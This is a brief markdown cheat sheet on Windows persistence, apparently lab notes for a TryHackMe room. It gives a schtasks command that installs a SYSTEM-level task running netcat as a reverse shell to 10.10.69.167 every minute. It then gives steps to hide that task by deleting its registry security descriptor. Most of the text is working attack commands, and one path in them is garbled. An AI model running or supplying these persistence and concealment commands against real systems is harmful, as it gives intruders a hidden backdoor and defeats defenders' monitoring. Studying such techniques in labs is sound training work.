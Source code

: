 # Windows Persistence

- [TryHackMe Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
- [Microsoft FAQ Scheduled Tasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)
- [Oddvar Moe Blog](https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/)

## Schedule Tasks
```
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\toolsnc64 -e cmd.exe 10.10.69.167 4449" /ru SYSTEM
```

## Hide our Scheduled Task
To hide our scheduled task, we can delete its security descriptor, located in the registry.  To perform this task,
we will need to have SYSTEM level privilges.  On the victim machine:

```
PsExec64.exe -s -i regedit
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<name-of-task>
Delete the regkey for the SD (security descriptor)
```